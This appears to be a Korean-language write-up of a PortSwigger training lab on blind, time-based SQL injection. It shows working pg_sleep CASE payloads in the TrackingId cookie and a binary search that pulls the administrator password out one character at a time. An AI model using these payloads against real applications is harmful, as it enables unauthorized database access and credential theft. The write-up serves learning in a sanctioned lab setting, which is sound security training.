

# Blind SQL injection with time delays and information retrieval

## 문제 조건과 설명

추적 쿠키 값이 SQL 조회에 들어간다. 쿼리 결과는 응답에 보이지 않고, 반환 행이나 오류 유무가 달라져도 페이지는 구별되지 않는다. 그러나 조회가 **동기식**이므로 SQL 처리 시간을 응답 시간으로 관찰할 여지가 있다. 이 조건은 14번과 같지만, 이번에는 시간을 지연시키는 데서 멈추지 않는다.

**알려진 구조와 찾아야 할 값**

공식 설명은 별도의 `users` 테이블과 `username`, `password` 열을 알려 준다. 목표 사용자는 `administrator`지만, 그 비밀번호의 내용과 길이는 주어지지 않는다. **완료 조건은 시간 차이를 이용해 비밀번호를 알아내고, 실제로 관리자 계정으로 로그인하는 것**이다. 지연 요청 하나가 성공해도 자격 증명을 얻지 못했다면 아직 완료가 아니다.

**시간을 정보로 바꾸는 판단**

페이지 내용이 같은 두 요청이라도, 확인하려는 조건이 참일 때만 SQL 조회가 지연된다면 응답 시간의 차이를 한 가지 답으로 읽을 수 있다. 이런 방식으로 비밀번호에 관한 조건을 조금씩 검증할 수 있다. 다만 느린 요청이 곧 참이라는 단정은 위험하다. 정상 쿠키 요청의 기준 시간을 여러 번 측정하고, 서로 반대인 조건을 같은 환경에서 비교해 일시적인 서버 지연과 구분해야 한다.

비밀번호 값을 한 번에 보여 주는 출력 위치가 없으므로, **길이와 문자에 관한 확인 과정을 누적**해야 한다. 추론한 문자열은 마지막에 로그인으로 검증한다. 문제 설명은 사용할 지연 함수나 데이터베이스 문법을 알려 주지 않으므로, 아래 기록에는 실제로 확인한 구문과 각 조건의 응답 시간을 따로 적는다.

출처: [PortSwigger 실습 설명](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

## 탐색 및 풀이 기록

### 초기 관찰

입력 지점은 상품 페이지 요청의 `TrackingId` 쿠키였다. 정상 요청은 HTTP 200, 본문 3996자로 1.65초 걸렸다. 앞선 문제에서 동작한 `pg_sleep`을 이번에는 조건식의 결과에 따라 실행했다.

~~~sql fragment
<원래 TrackingId>'||(SELECT CASE WHEN (1=1) THEN pg_sleep(3) ELSE pg_sleep(0) END)--
<원래 TrackingId>'||(SELECT CASE WHEN (1=2) THEN pg_sleep(3) ELSE pg_sleep(0) END)--
~~~

참 조건은 4.75초, 거짓 조건은 2.11초였다. 두 응답 모두 HTTP 200, 본문 3996자였다. 이 인스턴스에서는 **느린 응답을 참**, 빠른 응답을 거짓으로 구별할 수 있었다.

### 실행 과정

조건식에서 실제 계정 정보에 접근하는지 먼저 확인했다. `administrator`의 비밀번호 길이가 0보다 큰지 물은 요청은 4.58초, 첫 문자의 ASCII 값이 0보다 큰지 물은 요청은 4.52초 걸렸다. 두 조건 모두 지연이 나타났다.

~~~sql fragment
<원래 TrackingId>'||(SELECT CASE WHEN (
  (SELECT LENGTH(password) FROM users WHERE username='administrator') > 0
) THEN pg_sleep(3) ELSE pg_sleep(0) END)--
~~~

이후 PowerShell에서 `Cookie` 헤더로 요청을 보내고, `1=1`과 `1=2`의 응답 시간을 각각 세 번 측정해 판정 기준을 잡았다. 그 기준으로 비밀번호 길이는 0~64, 각 문자는 출력 가능한 ASCII 값 32~126 범위에서 이진 탐색했다. 매번 중간값보다 큰지 묻고 응답이 느리면 상한 쪽, 빠르면 하한 쪽 범위를 남겼다.

~~~sql fragment
<원래 TrackingId>'||(SELECT CASE WHEN (
  (SELECT ASCII(SUBSTRING(password FROM <위치> FOR 1))
   FROM users WHERE username='administrator') > <중간값>
) THEN pg_sleep(3) ELSE pg_sleep(0) END)--
~~~

복원한 문자열은 `users` 테이블의 관리자 비밀번호와 같은지 다시 시간 신호로 검사하도록 했다.

## 최종 결과

복원한 비밀번호로 `administrator`에 로그인하자 계정 화면과 실습 완료 배너가 표시됐다.

## 배운 점

01.14에서는 지연 자체가 목표였다. 이번에는 같은 지연을 조건이 참일 때만 발생시켜 한 요청에서 참·거짓 한 비트를 읽었다. 기준 시간을 먼저 대조해야 일시적인 느린 응답을 데이터로 오해하지 않는다.

## 관련 개념

- [SQL 기초와 SQL 인젝션이 생기는 원리](../../concepts/sql-injection-foundations.md)
